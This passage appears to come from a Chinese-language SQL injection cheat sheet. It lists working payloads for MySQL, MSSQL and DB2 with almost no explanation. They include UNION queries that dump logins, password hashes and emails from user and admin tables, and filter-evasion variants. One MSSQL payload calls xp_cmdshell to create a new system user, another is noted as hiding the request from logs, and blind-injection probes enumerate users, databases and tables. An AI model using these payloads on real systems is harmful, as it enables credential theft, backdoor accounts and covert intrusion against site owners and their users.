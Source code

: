 ```
select user from mysql.user where user = 'user' OR mid(password,1,1) rlike '[*]'
select user from mysql.user where user = 'user' OR ord(mid(password,1,1))=42

/?id=1+union+(select'1',concat(login,hash)from+users)
/?id=(1)union(((((((select(1),hex(hash)from(users))))))))

?id=1'; /*&id=1*/ EXEC /*&id=1*/ master..xp_cmdshell /*&id=1*/ net user lucifer UrWaFisShiT /*&id=1*/ --
id=10 a%nd 1=0/(se%lect top 1 ta%ble_name fr%om info%rmation_schema.tables)
id=10 and 1=0/(select top 1 table_name from information_schema.tables)

id=-725+UNION+SELECT+1,GROUP_CONCAT(id,0x3a,login,0x3a,password,0x3a,email,0x3a,access_level),3,4,5+FROM+Admin--
id=-725+UNION+SELECT+1,version(),3,4,5--sp_password //使用sp_password隐藏log中的请求
```

### 7.注释

1. `#` mysql
2. `--` oracle mysql mssql
3. `/**/` oracle mysql mssql


## DB2

当前用户名长度

`1 and 8=(select length(user) from sysibm.sysdummy1) --`

当前用户名 ASCLL 48-122

`1 and 1=(select ASCII(SUBSTR(user, 1, 1)) from sysibm.sysdummy1)`

当前数据库名长度

`1 and 6 = (select length(current server) from sysibm.sysdummy1)`

当前数据库名

`1 and 1=(select ASCII(SUBSTR(current server, 1, 1)) from sysibm.sysdummy1)`

## MYSQL

#### 数据库名

`union select 1,2,3,4,database()#`

#### 表名

`union select 1,2,3,4,group_concat(table_name) from information_schema.tables where table_schema=database()#`

盲注表名长度

`1’ and length(select table_name from information_schema.tables where table_schema=database() limit 0,1)=1 #`
